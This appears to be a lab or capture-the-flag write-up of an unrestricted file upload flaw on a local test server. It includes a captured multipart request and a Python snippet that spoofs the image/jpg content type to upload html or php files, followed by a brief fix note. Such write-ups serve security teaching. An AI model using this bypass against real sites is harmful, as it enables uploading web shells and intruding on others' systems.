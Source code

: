# Unrestricted file upload

## Exploitation

On the homepage, at the bottom, there is some images and 2 buttons **ADD IMAGE** and **SEARCH IMAGE**. On the "add image" page (http://192.168.1.48/index.php?page=upload), there is a form. We can upload some images.

After many tries, the form only accept `jpg` images, not png and not other files.

We can check the raw request on the developper tools when we posting an image

```
-----------------------------42702836962405046798154987984
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------42702836962405046798154987984
Content-Disposition: form-data; name="uploaded"; filename=""
Content-Type: application/octet-stream


-----------------------------42702836962405046798154987984
Content-Disposition: form-data; name="Upload"

Upload
-----------------------------42702836962405046798154987984--
```

This is a `multipart/form-data` (as we can see on the html). We can try to send a request to post other filetypes in python, by building the request manually and adding the `Content-Type: image/jpg`

```py
files = {
    'MAX_FILE_SIZE': (None, '100000'),
    'uploaded': ('index.html', open('index.html','rb'), 'image/jpg'),
    'Upload': (None, 'Upload')
}
requests.post("http://192.168.1.48/index.php?page=upload#", files=files)
```

It works! We can upload some html or php files

## How to fix it?

On the backend, the code need to do a second check on the uploaded file
